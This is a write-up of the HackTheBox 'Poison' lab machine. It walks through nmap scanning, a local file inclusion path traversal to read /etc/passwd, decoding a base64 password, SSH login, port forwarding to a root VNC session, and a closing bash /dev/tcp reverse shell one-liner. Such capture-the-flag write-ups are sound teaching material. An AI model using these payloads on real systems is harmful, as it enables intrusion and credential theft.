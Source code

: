 # Poison [HTB](https://app.hackthebox.com/machines/132)
![poison-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/poison-01.png)


## Recon

After adding the target to my `/etc/hosts` file, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 poison.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ports-02.png)


We have two ports. Let's run a version detection scan againts them:

```bash
nmap -p 22,80 -sCV poison.htb -oN nmap.result
```

![namp-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/nmap-res-03.png)


We have the following:

+ An SSH server on port 22.
+ An Apache-2.4.29 server on port 80.

Based on the `nmap` scan we can see that the root directory of the website doesn't have a title, and it seems like the site is powered by PHP 5.6.32. Based on the scan we can also guess that the the target OS is `FreeBSD`.


Let's take a closer look at the Apache server.


## Apache Port 80


If we open the site at `http://poison.htb/` we can see the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/site-04.png)


It looks like the site takes a local script as input, runs it locally, and returns the result back to us.


From the available scripts we can see a `listfiles.php` script. Let's run it:

![list-files-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/list-files-05.png)


We can see that the file name argument is sent to the server via the `file` parameter in the URL, this could pose a file inclusion vulerability. 


The response is a PHP array of the local directory listing. In the listing we see two new files that were not present in the main page, `browse.php` and `pwdbackup.txt`. 


If we run `browse.php`, it results in some form of a memory page-fault, perhaps a buffer-overflow:

![browse-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/browse-06.png)


That's interesting, but i'm not sure exactly how to exploit this at the moment. 


If we retrive `pwdbackup.txt` we get the following:

![pwd-backup-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/pwd-backup-07.png)


We have what looks like a few different base64 encoded strings separated by a space character. But the first line of the file says that the password is encoded 13 times. How should we go about decoding this?  


At first I tried decoding each line as a seperate base64 string. This didnt work, as the output from the decoding started to break down and subsequent docoding attempts failed. 


Instead, I concatenated all of the individual strings into one big base64 string and saved it to a file locally. Then I used the following python script to base64 decode it 13 times:


```python
#!/usr/bin/python3

import base64 

with open('pwdbackup.txt', 'rt') as file:
    s = file.read()

for _ in range(13):
    s = base64.b64decode(s)
    s = s.decode('utf-8')

print(s)
```

Which resulted in the following:

![pass-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/pass-08.png)


This looks like a password, the question is what is the username? 


To answer this question I decided to go back to the website's scripting application. We know that we have some form of local file inclusion going on, as the application runs local files and returns the output.


So I decided to test for a local file inclusion vulnerability, specifically, I wanted to include the `/etc/passwd` file which will give us a list of valid usernames on the system. 


So i sent `../../../../etc/passwd` as the file name:

![err-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/err-09.png)


So now we know that the `browse.php` is the script that sources the local files via the `include()` function. We can also see that the application is hardcoded to use files inside the `/usr/local/www/apache24/data` directory which is defined in the `include_path` variable. 


Therefore, we know that we need to go five levels higher in order to reach the root directory. So I added one more `../` into the file path `../../../../../etc/passwd`:

![input-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/input-10.png)


Which returned the file:

![passwd-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/passwd-11.png)


The username was actually in the password. Let's try to login to the ssh:

```bash
ssh charix@poison.htb
```

![ssh-11.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ssh-11.5.png)

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/shell-12.png)


Let's move to privilege escalation!


## Privilege Escalation


If we list the content's of our user's home folder we can see the following:

![list-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/list-13.png)


This zip archive (owend by root) looks interesting. If we try to `unzip` it we will notice it is password protected:

![protected-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/protected-14.png)


Let's trasnfer the file to our kali. To do this I start a python web server on the target with:

```bash
python -m SimpleHTTPServer 8000
```

And download the file from my kali using:

```bash
wget http://poison.htb:8000/secret.zip
```

![wget-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/wget-15.png)


Let's try to use the ssh password from before to open it:

![unzip-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/unzip-16.png)


It worked! 


I also ran the `file` program on it to try and identify what type of file this is. It's says its a Non-ISO extended ASCII text file, meaning there are characters outside the ASCII range (byte values ≥128) in the file. 


If we `cat` the file we can see the issue:

![cat-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/cat-17.png)


We can try to guess out the encoding of this file using the `uchardet` program:

```bash
apt install uchardet   # If not installed already
uchardet secret
```

![encoding-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/encoding-18.png)


We can try to convert this string to `utf-8` with:

```bash
iconv -f WINDOWS-1252 -t utf-8 secret
```

![iconv-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/iconv-19.png)


Unfortenatly, it's still doesn't make sense. Perhaps it's encrypted? I decided to put this file to side for now and enumerate the target some more. 


The next thing I did was to look at running processes with `ps auxww`, and that's where I saw somthing interesting:

![ps-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ps-20.png)


Looks like `root` is running a VNC server on `localhost:5901`. VNC is the Virtual Network Computing system and you can read more about it [here](https://en.wikipedia.org/wiki/Virtual_Network_Computing), but in short, it's a remote graphical desktop system, much like RDP for Windows, only VNC is platform independent.


We can verify that the VNC server is running on the target host by listing the open ports as such:

```bash
sockstat -l	# A FreeBSD way of listing open ports
```

![sockstat-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/sockstat-21.png)


There is actually two ports on which the VNC server is running on, but we primarly want to focus on port 5901 because it's owned by root. We can probably guess that the `secret` file we worked on before is the password file for the VNC connection. 


The VNC server is running on the localhost of the target but if we tunnel this traffic to our attack machine we should be able to access it locally. To do that we can use port forwarding as such:

```bash
ssh -N -L 5901:localhost:5901 charix@poison.htb
```  

![forward-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/forward-22.png)


After we supply the user's password, the shell window stalls, which is a good sign that the tunnel has been established. We can verify this by listing out the open ports on our attack machine:

![ports-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ports-23.png)


Nice! If you want a quick and easy cheet sheet for port forwarding cick [here](https://gist.github.com/billautomata/ee0572113e1496a75b03).


Now we should be able to get access to the VNC as the root user with:

```bash
vncviewer -passwd secret localhost::5901
```

![success-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/success-24.png)


Which opens up the following (tiny) window:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/root-25.png)


Although it's hard to read because the font is so small, this is in fact a root shell! 

From here we can run something like `bash -i >& /dev/tcp/10.10.14.58/9001 0>&1` to give ourselfes a proper shell, if we want.  
